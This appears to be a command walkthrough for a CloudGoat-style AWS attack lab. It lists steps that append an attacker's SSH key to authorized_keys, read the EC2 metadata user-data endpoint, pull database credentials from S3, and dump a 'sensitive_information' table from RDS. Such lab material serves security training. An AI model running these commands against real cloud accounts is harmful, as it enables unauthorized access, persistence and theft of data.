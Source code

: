 `aws configure --profile Lara`

`aws s3 ls --profile Lara`

`aws s3 ls s3://<bucket> --recursive --profile Lara`

`aws s3 cp s3://<bucket>/cg-lb-logs/AWSLogs/793950739751/elasticloadbalancing/us-east-1/2019/06/19/555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile Lara`

`cat 555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log`

`aws elbv2 describe-load-balancers --profile Lara`

`echo "public ssh key" >> /home/ubuntu/.ssh/authorized_keys`

`curl ifconfig.me`

`ssh -i private_key ubuntu@public.ip.of.ec2`

# BRANCH A:

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region us-east-1`

`psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>`

`\dt`

`select * from sensitive_information;`

# BRANCH B:

`curl http://169.254.169.254/latest/user-data`

`psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>`